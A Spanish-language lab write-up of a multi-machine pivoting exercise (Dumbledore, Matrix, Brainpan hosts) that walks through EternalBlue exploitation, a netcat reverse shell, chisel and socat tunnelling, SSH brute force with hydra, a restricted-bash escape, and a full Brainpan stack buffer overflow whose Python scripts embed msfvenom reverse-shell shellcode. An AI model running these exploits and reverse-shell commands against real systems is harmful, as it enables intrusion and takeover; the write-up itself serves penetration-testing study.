Se copiará el siguiente exploit de python: [https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py](https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py)

Lo único a tener en cuenta es que el script contempla una ruta diferente de sudo por lo que es necesario cambiarla.


Al ejecutarlo se escalan los privilegios a root.


# Dumbledore

## Reconocimiento

Como se vio anteriormente, la máquina Nagini tenía conexión con otra máquina la cual por su TTL, se puede deducir que es una máquina Windows.


### Descubrimiento de puertos con nmap

Ahora se hará un escaneo de puertos

```bash

seq 1 65535 | xargs -P 20 -I {} proxychains nmap -p{} -sT -Pn -n --open 30.30.30.4 2>/dev/null | grep "tcp open"

```


### Uso de crackmapexec

El puerto 445 está abierto por lo que se obtendrá un poco más de información utilizando la herramienta crackmapexec.

```bash
proxychains crackmapexec smb 30.30.30.4 2>/dev/null
```


## Explotación del MS17-010 (EternalBlue)

La máquina es un Windows 7 y al tener el SMBv1 expuesto, la hace vulnerable a EternalBlue. Para explotar esto, se usará el repositorio AutoBlue-MS17-010 la cual automatizará el proceso.

```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010
```

### Uso del eternal_checker

Se ejecutará el “eternal_checker” para verificar si existen named pipes de los cuales se puede aprovechar para escalar privilegios.

```bash
python3 eternal_checker.py

# Si hy errores, utilizar un ambiente virtual con python2.7
pip install virtualenv

virtualenv -q $(which python2.7) env1
source env1/bin/activate
pip install impacket
```


### Uso del zzz_exploit

Ahora se ejecutará el “zzz_exploit” para automatizar el proceso de  explotación del buffer overflow y obtener una shell en la máquina Windows.

```bash
proxychains python2.7 zzz_exploit.py 30.30.30.4

# Si hay errores con dependencias, utilizar un 
# ambiente virtual con python2.7
pip install virtualenv

virtualenv -q $(which python2.7) env1
source env1/bin/activate
pip install impacket
```

Si hay más errores en los decoders, modificar el mysmb.py y, en la línea 89, eliminar el “str.encode(data)” y dejar solo “data”.

Una vez dentro de la máquina se puede ver que hay otra tarjeta de red con una red distinta, esto significa que puede haber más dispositivos conectados directamente.



### Uso de netcat64 para Windows

El problema es que no es una consola totalmente interactiva y no se puede navegar por directorios.


Para solucionar esto, se utilizará netcat para Windows de 64 bits: [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

Instalación:


```bash
unzip -d netcat netcat-win32-1.12.zip
```

Ahora hay que transferir el netcat a la máquina Dumbledore, esto se puede hacer creando un recurso compartido, con SMB, en la máquina del atacante y, a través de socat, se crearán intermediarios para traer la herramienta.

```bash
# En la máquina atacante
impacket-smbserver  smbFolder $(pwd) -smb2support

# En la máquina Aragog
./socat TCP-LISTEN:445,fork TCP:192.168.0.104:445

# En la máquina Nagini
./socat TCP-LISTEN:445,fork TCP:20.20.20.4:445

# En la máquina Dumbledore
dir \\30.30.30.6\smbFolder\
copy \\20.20.20.6\smbFolder\nc64.exe C:\Windows\Temp\nc.exe
```


Ahora con netcat se enviará una shell a la máquina del atacante y se aprovechará el túnel creado previamente.

```bash
# En la máquina atacante
nc -nlvp 445

# En la máquina Dumbledore
C:\Windows\Temp\nc.exe -e cmd 30.30.30.6 445
```


De esta forma se obtiene una shell interactiva.

# Matrix

## Reconocimiento

Previamente en la máquina Dumbledore, se vio que esta tiene otra interfaz de red, por lo que ahora se hará un escaneo de hosts para descubrir más hosts activos por esta interfaz.

```bash
# Mostrar la tabla ARP
arp -a

# Borrar las entradas de la tabla ARP
arp -d

# Descrubrir hosts activos
for /L %a in (1,1,254) do @start /b ping 40.40.40.%a -w 100 -n 2 >nul

# Mostrar los hosts activos en la tabla ARP
arp -a
```


### Uso de chisel en Windows 64 bits

Una vez descubierta la IP de la otra máquina ahora se hará un escaneo con nmap, pero para hacer esto, es necesario traer todas las conexiones de la máquina Dumbledore y hacerlas visibles desde la máquina atacante con chisel.

- Instalación
    
    Primero hay que descargar la herramienta chisel para Windows: ‣
    
    
    
    ```bash
    gunzip chisel_1.9.1_windows_amd64.gz
    mv chisel_1.9.1_windows_amd64.gz chiselwin
    ```
    

Aprovechando el túnel creado por el puerto 445, se transferirá el binario utilizando SMB.

```bash
# En la máquina atacante
impacket-smbserver smbFolder $(pwd) -smb2support

# En la máquina Dumbledore
copy \\30.30.30.6\smbFolder\chiselwin C:\Windows\Temp\chiselwin
```

Ahora se crean los socats para que la máquina Dumbledore se conecte como cliente al servidor principal de chisel.

```bash
# En la máquina Aragog
./socat TCP-LISTEN:6060,fork TCP:192.168.0.104:1234

# En la máquina Nagini
./socat TCP-LISTEN:6060,fork TCP:20.20.20.4:6060

# En la máquina Dumbledore
.\chisel client 30.30.30.6:6060 R:9997:socks
```

Por último, en la máquina atacante ahora se debe modificar el archivo “/etc/proxychains.conf” para agregar el nuevo proxy.


### Escaneo de puertos con nmap

Ahora se buscarán puertos abiertos en la máquina Matrix.

```bash

seq 1 65535 | xargs -P 20 -I {} proxychains nmap -p{} -sT -Pn -n --open 40.40.40.5 2>/dev/null | grep "tcp open"

```


El puerto 80 está abierto y para ver la página web, hay que configurar un nuevo proxy en el foxyproxy.


En esta web no hay nada más interesante por lo que ahora toca revisar el puerto 31337.

```bash
proxychains curl http://40.40.40.5:31337
```


El mensaje en base64 muestra cómo se está redirigiendo una cadena de texto al archivo Cypher.matrix:


Este archivo contiene un código en brainfuck y al ejecutarlo, muestra un mensaje en el cual se indica una credencial incompleta.


### Brute force con hydra y wordlist personalizada

El usuario es “guest” y la contraseña incompleta es “k1ll0r??”, por lo que se creará una wordlist con múltiples combinaciones con crunch.

```bash
#!/bin/bash

counter=0

for i in @@ ,, %% @, @% ,@ %@ ,% %,; do
  echo -ne "\r"

  crunch 8 8 -t k1ll0r$i &>/dev/null >> wordlist2.txt
  let counter+=1

  echo -n "[+] Creating wordlist... $counter/9"
done
echo -e "\n\nDone!"
```

Ahora se hará fuerza bruta al SSH con hydra

```bash
proxychains hydra -l guest -P wordlist.txt ssh://40.40.40.5 -f 2>/dev/null
```

La contraseña del usuario es: k1ll0r7n

### Restricted bash evasion

Al loguearse como el usuario guest por SSH, este entra en una restricted bash.


Para evadir esto, se puede abrir una bash, antes que se ejecute la rbash, incluyendo “bash” al final del comando del ssh.

```bash
proxychains ssh guest@40.40.40.6 bash

# Para obtener una shell interactiva:
script /dev/null -c bash
Z^ # Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 25 cols 128
```


El usuario puede ejecutar comandos como cualquier usuario por lo que se puede usar “sudo su” para obtener una shell como root.


Ahora para crear persistencia, se insertará la llave SSH pública del atacante en el directorio “.ssh” como “authorized_keys”.

# Brainpan

## Reconocimiento

Como se vio anteriormente, la máquina Matrix tiene una interfaz en el segmento 50.50.50.0/24. Al hacer un descubrimiento de hosts por esta interfaz, se descubre una nueva IP: 50.50.50.5 que por su TTL indica que es una máquina Linux.


Para que la máquina atacante pueda ver este segmento de red, se hará el mismo proceso para armar el túnel con proxies.

Para hacer que la máquina Dumbledore redirija las conexiones entrantes a la nagini, se hará uso de netsh.

```bash
# En la máquina Aragog
./socat TCP-LISTEN:5050,fork TCP:192.168.0.104:1234

# En la máquina Nagini
./socat TCP-LISTEN:5051,fork TCP:20.20.20.4:5050

# En la máquina Dumbledore
netsh interface portproxy add v4tov4 listenport=5052 
listenaddress=0.0.0.0 connectport=5051 
connectaddress=30.30.30.6
	# Verificar conexiones
	netsh interface portproxy show all
	# Restablecer conexiones
	netsh interface portproxy reset

# En la máquina Matrix
./chisel client 40.40.40.6:5052 R:9996:socks
```

Por último, se debe agregar el nuevo proxy en la configuración del “/etc/proxychains.conf”


### Escaneo **de puertos con nmap**

La máquina atacante ahora puede ver la máquina Brainpan por lo que se hará escaneo de puertos.

```bash

seq 1 65535 | xargs -P 20 -I {} nmap -p{} -sT -Pn -n -Pn 50.50.50.5 2>&1 | grep "tcp open"

```


Al hacer un whatweb a la máquina por el puerto 10000, se puede ver que corresponde a una página web.

```bash
proxychains whatweb http://50.50.50.5:10000
```


Para ver esta página web, se añade un nuevo proxy al foxyproxy.


### Descubrimiento de directorios (Burpsuite | Python)

Para hacer un descubrimiento de directorios con varios proxies de por medio, es posible que usar herramientas como gobuster no sea muy conveniente por el timeout que tiene por default, debido a la lentitud que puede generar tener varios proxies, el timeout se puede expirar y no detectar directorios existentes.

Una alternativa es usar Burpsuite: Esta opción puede ser útil si se tiene la versión pro de Burpsuite.

En burpsuite, irse al apartado de “User Options” → SOCKS Proxy. Aquí se añadirá la proxy por el cual se tramitarán las peticiones, en este caso 127.0.0.1:9996.


Ahora en el foxyproxy se seleccionará un proxy con una configuración como la siguiente.


Ahora con Burpsuite, se interceptará, por ejemplo, haciendo una petición a un recurso cualquiera, en este caso “http://50.50.50.5:10000/test” y esta se mandará al “intruder” para asignar una posición en la que se insertará el payload.


Ahora, en “payloads”, cargar un archivo con una de palabras, en este caso, se cargará el “directory-list-2.3-medium.txt” de SecLists.

Hecho esto, solo falta empezar el ataque.

Otra opción es hacer un script en Python.

- Script
    
    ```bash
    
    #!/usr/bin/python3
    
    import requests, signal, sys
    from pwn import *
    
    wordlist = '/usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt'
    dir_found = "\n"
    
    p1 = log.info("Starting attack...")
    p2 = log.progress("Progress")
    p3 = log.progress("Directories found")
    
    with open(wordlist, 'r') as word:
    
        counter = 0 # Contar la cantidad de iteraciones
    
        for w in word: # Itera en cada línea de la wordlist
    
            w = w.strip() # Elimina los espacios de cada línea
            try:
                p2.status(counter)
    
    						# Envía las peticiones pasando por el proxy y se establece un tiempo límite para cada petición
                r = requests.get(f'http://50.50.50.5:10000/{w}/', proxies={'http': "socks5://localhost:9996"}, timeout=0.5)
                counter += 1
    
                if r.status_code == 200: # Verifica el código de estado
                    dir_found += w
                    p3.status(dir_found)
    
            except KeyboardInterrupt: # Si hay alguna interrupción por el teclado, se detiene el bucle
                break
    
            except: # Si hay un error por timeout o cualquier otro
                counter += 1
                continue
    
    ```
    


Se encontró el directorio “/bin/” y contiene un archivo “.exe”.


Por el puerto 9999 está corriendo otro servicio en el cual se pide una contraseña.


## Buffer Overflow con Immunity Debugger

Este ejecutable será analizado utilizando un Windows 7 por lo que se utilizará SMB para transferirlo de la máquina atacante al Windows 7.

```bash
# En la máquina atacante
impacket-smbserver smbFolder $(pwd) -smb2support

# En la máquina atacante (Windows)
\\192.168.0.104\smbFolder\
	# En CMD
	dir \\192.168.0.104\smbFolder\
	copy \\192.168.0.104\smbFolder\brainpan.exe C:\Users\attacker\Desktop\brainpan.exe
```

También se debe desactivar la protección contra ejecución de datos (DEP) de WIndows.

```bash

# Se debe ejecutar como administrador
bcdedit.exe /set {current} nx AlwaysOff

```

Una vez hecho eso, ahora hay que reiniciar la máquina para que se apliquen los cambios.

También se cambiarán algunas reglas del firewall, se permitirán todas las trazas ICMP tanto inbound  como outbound.


Al ejecutar el ejecutable “brainpan.exe”, se abre un servicio en el puerto 9999.


Y al intentar conectarse a este desde la máquina atacante, se ve que es el mismo servicio que se muestra en la máquina Brainpan.


Se analizará este servicio con el Immunity Debugger, para esto se “unirá” el servicio abierto del brainpan.exe.


### Detectar Buffer Overflow

Desde la máquina atacante, se conectará a este servicio y se enviará una gran cadena de caracteres.


### Control del EIP

El programa se detuvo y se sobrescribieron los registros, ahora la tarea es tomar control del EIP.

Primero se creará una cadena especial de 1000 caracteres con el framework de metaploit.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```

Al enviar la cadena, se copiará el patrón que se encuentra en el EIP y se usará para encontrar el offset y con este offset se creará una cadena con las “A” necesarias antes de sobrescribir el EIP.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35724134
python3 -c 'print("A"*524 + "B"*4 + "C"*200)'
```


Ahora se enviará esta nueva cadena para confirmar el offset y si todo va como lo esperado, el EIP debe valer “42424242”.


Además, se puede ver cómo se sobrescribe el stack (ESP) con “C”. El objetivo es hacer que el EIP apunte al ESP ya que es donde se insertará el shellcode.

### Creación de Bytearrays

Para que el shellcode funcione, es necesario detectar y eliminar los badchars, esto se hará creando bytearrays.

Primero se creará el directorio de trabajo.

```bash
# Crear directorio en donde se ingresará el archivo del bytearray
!mona config -set workingfolder C:\Users\attacker\Desktop\Analysis
```

Ahora se creará un archivo con un bytearray excluyendo el “NULL Byte” (\x00).

```bash
!mona bytearray -cpb '\x00'
```


Ahora en el directorio de trabajo estarán los archivos correspondientes al bytearray y es en el archivo de texto es donde se encuentra el bytearray que se insertará en el stack.


### Detección de badchars

Para enviar los datos, se creará un script en python por lo que se transferirá el bytearray a la máquina local con SMB.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

Al ejecutar el script, se envían los datos y ahora, en el stack, se puede ver una serie de caracteres (01, 02, 03, …), esto corresponde al bytearray ingresado, sin embargo, se verificará si en esta cadena de caracteres existe algún badchar que no se esté interpretando y rompa con esta secuencia.

- Script con bytearray inicial
    
    ```bash
    #!/usr/bin/python3
    
    import socket
    import sys
    
    # Variables de entorno
    ip_address = "192.168.0.105"
    port = 9999
    offset = 524
    
    # DAtos a enviar
    before_eip = b"A"*offset
    eip = b"B"*4
    byte_array = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
    
    # Payload
    payload = before_eip + eip + byte_array
    
    # Establecer conexión TCP
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, port))
    
    # Recibir el banner o respuesta de la conexión
    banner = s.recv(1024)
    
    # Envío de datos
    s.send(payload)
    
    # Cierre de conexión
    s.close()
    ```
    


Para descubrir estos badchars, se compararán los caracteres actuales del stack con el archivo “.bin” que se encuentra en el directorio de trabajo, con el objetivo de encontrar diferencias.

```bash
!mona compare -a 0x0022f930 -f C:\Users\attacker\Desktop\Analysis\bytearray.bin
```


No se encontró ningún badchar por lo que no será necesario crear nuevos bytearrays.

### Búsqueda de OPCode (JMP ESP)

Para que el EIP apunte al ESP y se interprete el shellcode que se ingresará en la pila, será necesario buscar el OPCode que haga un JMP ESP para que el EIP apunte a esta dirección.

Primero se buscará un módulo que no tenga las primeras cuatro protecciones activas


El propio ejecutable de brainpan (”C:\Users\attacker\Desktop\brainpan.exe”) no tiene proteccions por lo que es aquí donde se buscará el OPcode que aplique un JMP ESP.

Para saber cuál es el identificador del OPCode que se debe buscar, se puede usar la herramienta de metasploit nasmshell.rb, esto indicará el OPcode correspondiente al JMP ESP.

```bash
/usr/share/metasploit-framework/tools/exploit/nasmshell

# En la consola nasm: jmp esp
```


Ahora se buscará la dirección de este OPCode en el módulo brainpan.exe.

```bash
!mona find -s '\xFF\xE4' -m brainpan.exe
```


Se encontró un puntero con la dirección (”0x311712f3”), esta dirección es a la que ahora debe apuntar el EIP para que se aplique el JMP ESP.

### Creación del shellcode

Se creará el shellcode que será insertado en el stack.

```bash
msfvenom -p windows\shell_reverse_tcp 
--platform windows -a x86 LHOST=192.168.0.104 
LPORT=7777 -f c -b '\x00' EXITFUNC=thread

-p # Indica el tipo de payload, se ingresa el SO y 
# cómo se proporcionará la shell. Los payloads 
# con "/meterpreter/" entablarán una reverse shell 
# para metasploit. En este caso se usa un payload que 
# permitirá usar netcat para obtener la shell.

--platform <OS> -a <x64/x86> # Indica la plataforma a la 
# que será insertado el payload y la arquitectura si es 
# 64 o 32 bits.

LHOST= # Indica que se enviará una reverse shell a una 
# dirección IP.
LPORT= # Indica el puerto por el cual se recibirá la 
# reverse shell

-f # Indica el formato que tomará el shellcode

-b # Indica los badchars a eliminar en el shellcode

EXITFUNC=thread # Sirve para crear un subproceso por el 
# cual se colgará la sesión con la máquina víctima.
# Sin esto, al terminar la sesión en la víctima, el 
# proceso crasheará y el servicio ya no estará disponible
```


### Desplazamiento de la pila

Para que el shellcode se ejecute correctamente, se hará un desplazamiento de 16 bytes atrás en la pila.

Se obtendrá la instrucción que hace esto con el nasmshell de metasploit.

```bash
usr/share/metasploit-framework/tools/exploit/nasmshell.rb

# En la consola del nasm: sub esp,0x10
```



Esta instrucción se debe insertar antes del shellcode con la forma: “\x83\xEC\x10”.

El script es el siguiente.

- Script
    
    ```bash
    #!/usr/bin/python3
    
    import socket
    import sys
    from struct import pack
    
    # Variables de entorno
    ip_address = "192.168.0.105"
    port = 9999
    offset = 524
    
    # DAtos a enviar
    before_eip = b"A"*offset
    eip = pack("<L", 0x311712f3)
    shellcode = (b"\xdb\xc7\xd9\x74\x24\xf4\xbf\xde\x6b\x7a\x5c\x5b\x29\xc9"
    b"\xb1\x52\x83\xc3\x04\x31\x7b\x13\x03\xa5\x78\x98\xa9\xa5"
    b"\x97\xde\x52\x55\x68\xbf\xdb\xb0\x59\xff\xb8\xb1\xca\xcf"
    b"\xcb\x97\xe6\xa4\x9e\x03\x7c\xc8\x36\x24\x35\x67\x61\x0b"
    b"\xc6\xd4\x51\x0a\x44\x27\x86\xec\x75\xe8\xdb\xed\xb2\x15"
    b"\x11\xbf\x6b\x51\x84\x2f\x1f\x2f\x15\xc4\x53\xa1\x1d\x39"
    b"\x23\xc0\x0c\xec\x3f\x9b\x8e\x0f\x93\x97\x86\x17\xf0\x92"
    b"\x51\xac\xc2\x69\x60\x64\x1b\x91\xcf\x49\x93\x60\x11\x8e"
    b"\x14\x9b\x64\xe6\x66\x26\x7f\x3d\x14\xfc\x0a\xa5\xbe\x77"
    b"\xac\x01\x3e\x5b\x2b\xc2\x4c\x10\x3f\x8c\x50\xa7\xec\xa7"
    b"\x6d\x2c\x13\x67\xe4\x76\x30\xa3\xac\x2d\x59\xf2\x08\x83"
    b"\x66\xe4\xf2\x7c\xc3\x6f\x1e\x68\x7e\x32\x77\x5d\xb3\xcc"
    b"\x87\xc9\xc4\xbf\xb5\x56\x7f\x57\xf6\x1f\x59\xa0\xf9\x35"
    b"\x1d\x3e\x04\xb6\x5e\x17\xc3\xe2\x0e\x0f\xe2\x8a\xc4\xcf"
    b"\x0b\x5f\x4a\x9f\xa3\x30\x2b\x4f\x04\xe1\xc3\x85\x8b\xde"
    b"\xf4\xa6\x41\x77\x9e\x5d\x02\xb8\xf7\x5d\xb7\x50\x0a\x5d"
    b"\x29\xc0\x83\xbb\x3f\x12\xc2\x14\xa8\x8b\x4f\xee\x49\x53"
    b"\x5a\x8b\x4a\xdf\x69\x6c\x04\x28\x07\x7e\xf1\xd8\x52\xdc"
    b"\x54\xe6\x48\x48\x3a\x75\x17\x88\x35\x66\x80\xdf\x12\x58"
    b"\xd9\xb5\x8e\xc3\x73\xab\x52\x95\xbc\x6f\x89\x66\x42\x6e"
    b"\x5c\xd2\x60\x60\x98\xdb\x2c\xd4\x74\x8a\xfa\x82\x32\x64"
    b"\x4d\x7c\xed\xdb\x07\xe8\x68\x10\x98\x6e\x75\x7d\x6e\x8e"
    b"\xc4\x28\x37\xb1\xe9\xbc\xbf\xca\x17\x5d\x3f\x01\x9c\x7d"
    b"\xa2\x83\xe9\x15\x7b\x46\x50\x78\x7c\xbd\x97\x85\xff\x37"
    b"\x68\x72\x1f\x32\x6d\x3e\xa7\xaf\x1f\x2f\x42\xcf\x8c\x50"
    b"\x47")
    
    # Payload
    payload = before_eip + eip + b"\x83\xEC\x10" + shellcode
    
    # Establecer conexión TCP
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, port))
    
    # Recibir el banner o respuesta de la conexión
    banner = s.recv(1024)
    
    # Envío de datos
    s.send(payload)
    
    # Cierre de conexión
    s.close()
    ```
    


- Opcional: Verificar JMP ESP con breakpoints
    
    ### Verificar JMP ESP con breakpoints
    
    Para verificar la funcionalidad de este OPCode, primero se dirigirá a su dirección en memoria para establecer un breakpoint.
    
    
    
    Click derecho sobre el el OPCode y se establece el breakpoint
    
    
    
    Se ejecuta el script y en la dirección del EIP se puede ver que se está apuntando a la dirección del OPcode.
    
    
    
    Y al hacer un “step into” para que se ejecute el OPCode, se puede ver que ahora el EIP apunta al ESP.
    
    
    

### Explotación Buffler Overflow - Reverse Shell Final

Ahora se debe adecuar este script para explotar el servicio en la máquina Brainpan y obtener una reverse shell.

La máquina Brainpan deberá enviar la reverse shell a través de todas las máquinas anteriores y cada una de ellas deberá enviarla a la anterior, esto con el uso de socat.

```bash
# En la máquina Aragog
./socat TCP-LISTEN:7777,fork TCP:192.168.0.104:7777

# En la máquina Nagini
./socat TCP-LISTEN:7777,fork TCP:20.20.20.4:7777

# En la máquina Dumbledore
netsh interface portproxy add v4tov4 listenport=7777 
listenaddress=40.40.40.5 connectport=7777 
connectaddress=30.30.30.6

# En la máquina Matrix
./socat TCP-LISTEN:7777,fork TCP:40.40.40.6:7777
```

Ahora se debe crear otro shellcode para que la shell le llegue a la máquina Matrix y esta la reenvíe por las otras máquinas.

Esta máquina tiene dos sistemas operativos por lo que si se hace una shellcode para un windows, se obtendrá una shell en un windows y si se hace para un linux, se obtendrá la shell del linux.

```bash
# Obtener una shell de Windows
msfvenom -p windows\shell_reverse_tcp 
--platform windows -a x86 LHOST=50.50.50.4 
LPORT=7777 -f c -b '\x00' EXITFUNC=thread

# Obtener una shell de Linux
msfvenom -p linux/x86/shell_reverse_tcp 
LHOST=50.50.50.4 LPORT=7777 -f c -b '\x00' 
EXITFUNC=thread
```

- Script final
    
    ```bash
    #!/usr/bin/python3
    
    import socket
    import sys
    from struct import pack
    
    # Variables de entorno
    ip_address = "50.50.50.5"
    port = 9999
    offset = 524
    
    # DAtos a enviar
    before_eip = b"A"*offset
    eip = pack("<L", 0x311712f3)
    shellcode = (b"\xda\xd2\xb8\x88\x6b\x6a\x4e\xd9\x74\x24\xf4\x5e\x31\xc9"
    b"\xb1\x12\x31\x46\x17\x83\xc6\x04\x03\xce\x78\x88\xbb\xff"
    b"\xa5\xbb\xa7\xac\x1a\x17\x42\x50\x14\x76\x22\x32\xeb\xf9"
    b"\xd0\xe3\x43\xc6\x1b\x93\xed\x40\x5d\xfb\xdf\x80\xaf\xff"
    b"\x77\xe7\xcf\xe1\xe6\x6e\x2e\xad\x8f\x20\xe0\x9e\xfc\xc2"
    b"\x8b\xc1\xce\x45\xd9\x69\xbf\x6a\xad\x01\x57\x5a\x7e\xb3"
    b"\xce\x2d\x63\x61\x42\xa7\x85\x35\x6f\x7a\xc5")
    
    # Payload
    payload = before_eip + eip + b"\x83\xEC\x10" + shellcode
    
    # Establecer conexión TCP
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, port))
    
    # Recibir el banner o respuesta de la conexión
    banner = s.recv(1024)
    
    # Envío de datos
    s.send(payload)
    
    # Cierre de conexión
    s.close()
    ```
    

Shell en Windows:


## Escalada de privilegios

Shell en Linux:


El usuario puede ejecutar como root un script y además este permite abrir el manual de algún comando.


Al abrir el manual del algún comando, se puede ejecutar una shell y escalar privilegios.

```bash
sudo /home/anansi/bin/anansi_util manual id

# Dentro del entorno paginated del manual ingresar:
!/bin/bash
```


### Anexo:

- Conceptos
    
    Difference between strict, dynamic and random chain:
    
    Strict Chain: all proxies in the list will be used and they will be chained in order. Random Chain: each connection made through ProxyChains will be done via a random combo of proxies in the proxy list. Users can specify the number of proxies to use. (This option is useful for IDS testing.)
    
    ¿What is SOCS5?
    
    A SOCKS5 proxy routes data packets from a specifically configured source through a remote server, and offers authentication methods to ensure that only authorized users can access this server. Whereas other types of proxies are limited to re-routing web-browser traffic, SOCKS5 proxies are more flexible.
    
    ¿Is SOCS5 same as VPN?
    
    No, SOCKS5 is not as secure or as fast as a VPN. It's easy to confuse a SOCKS5 proxy with a VPN, but there are crucial differences. The main difference between proxies and VPNs is that VPNs encrypt your traffic and proxies don't. SOCKS5 also offers lower internet speed and stability.
    
    ¿What is proxychains?
    
    ProxyChains is a tool that forces any TCP connection made by any given application to go through proxies like TOR or any other SOCKS4, SOCKS5 or HTTP proxies. It is an open-source project for GNU/Linux systems.
    
    Essentially, you can use ProxyChains to run any program through a proxy server. This will allow you to access the Internet from behind a restrictive firewall, hide your IP address, run applications like SSH/ telnet/wget/FTP and Nmap through proxy servers, and even access your local Intranet from outside through an external proxy.
    
    ¿What is HTTP3?
    
    In short, it is what allows users to load websites. HTTP/3 is a new standard in development that will affect how web browsers and servers communicate, with significant upgrades for user experience, including performance, reliability, and security.
    
    ¿What is quiche?
    
    quiche is an implementation of the QUIC transport protocol and HTTP/3 as specified by the IETF. It provides a low level API for processing QUIC packets and handling connection state. The application is responsible for providing I/O (e.g. sockets handling) as well as an event loop with support for timers.
    
    ¿What is gopher?
    
    Gopher is a protocol for information transfer over the internet that was very popular before HTTP took over as the dominant protocol, but there is still a community of gopher users that prefer the simplicity of the protocol over the more complex and large protocols more often encountered.
    
    - ¿Qué es el EternalBlue?
        1. Nombre de la vulnerabilidad: La vulnerabilidad que EternalBlue explota se conoce como MS17-010, que es una referencia al boletín de seguridad de Microsoft publicado en marzo de 2017.
        2. Tipo de vulnerabilidad: MS17-010 es una vulnerabilidad de desbordamiento de búfer (buffer overflow). Este tipo de vulnerabilidad ocurre cuando un programa o sistema operativo no valida adecuadamente la entrada de datos proporcionada por un atacante y permite que se escriba más información en un búfer (una zona de memoria temporal) de lo que debería, lo que puede sobrescribir otras áreas de memoria crítica.
        3. Protocolo SMB: La vulnerabilidad MS17-010 afecta al protocolo SMBv1 (Server Message Block version 1), que se utiliza para compartir archivos e impresoras en redes Windows. Específicamente, la vulnerabilidad se encuentra en la implementación de SMBv1 en sistemas Windows.
        4. Ejecución de código remoto: La explotación de esta vulnerabilidad permite a un atacante enviar paquetes especialmente diseñados a un sistema vulnerable a través del protocolo SMBv1. Estos paquetes maliciosos pueden sobrescribir la memoria del sistema y, en última instancia, permitir que el atacante ejecute código de forma remota en el sistema objetivo.
        5. Sin autenticación: Lo que hace que esta vulnerabilidad sea especialmente peligrosa es que no requiere autenticación previa. En otras palabras, un atacante no necesita un nombre de usuario o contraseña válidos para aprovechar esta vulnerabilidad y ejecutar código en el sistema objetivo.
        6. Propagación: EternalBlue permitió a WannaCry propagarse rápidamente a través de redes y sistemas no parcheados. Una vez que un sistema estaba infectado, el malware WannaCry se aprovechaba de la vulnerabilidad para infectar otros sistemas en la misma red, lo que contribuyó a su rápida propagación.
        7. Parches de seguridad: Microsoft emitió parches de seguridad para corregir la vulnerabilidad MS17-010 poco después de su descubrimiento. Es esencial aplicar estos parches y mantener actualizados los sistemas Windows para protegerse contra esta vulnerabilidad y ataques similares.
        
        En resumen, EternalBlue aprovecha la vulnerabilidad de desbordamiento de búfer en el protocolo SMBv1 de Windows (MS17-010) para permitir la ejecución de código remoto en sistemas no parcheados, sin necesidad de autenticación, lo que lo convierte en una amenaza grave para la seguridad de los sistemas Windows no actualizados.
        
    
    ¿Qué es un named pipe?
    
    Un Named Pipe (también conocido como pipe con nombre o FIFO, que significa "First In, First Out") es un mecanismo de comunicación interprocesos en sistemas operativos, especialmente en entornos tipo Unix y sistemas Windows. Los Named Pipes permiten que dos procesos se comuniquen de manera bidireccional compartiendo datos a través de un archivo especial llamado "pipe" o "tubería" en el sistema de archivos.
    
    ¿Qué relación tienen los named piped con el script eternal_checker?
    
    La relación entre Named Pipes y EternalBlue radica en el hecho de que, en algunos casos, la explotación de la vulnerabilidad EternalBlue puede implicar la creación y el uso de Named Pipes para la comunicación entre el atacante y el sistema objetivo. La explotación de EternalBlue puede implicar la creación de un Named Pipe en el sistema vulnerable para transferir el código malicioso y los comandos necesarios para tomar el control de la máquina objetivo.
    
    ¿Qué es una restricted bash?
    
    El shell restringido es un shell de Unix que restringe algunas de las capacidades disponibles para una sesión de usuario interactiva o para un script de shell que se ejecuta dentro de él.

### Más info:

- Links
    
    chisel - (”https://github.com/jpillora/chisel”)
    
    hackplayers - (”[https://www.hackplayers.com/2019/09/transferir-archivos-post-explotacion.html](https://www.hackplayers.com/2019/09/transferir-archivos-post-explotacion.html)”)
    
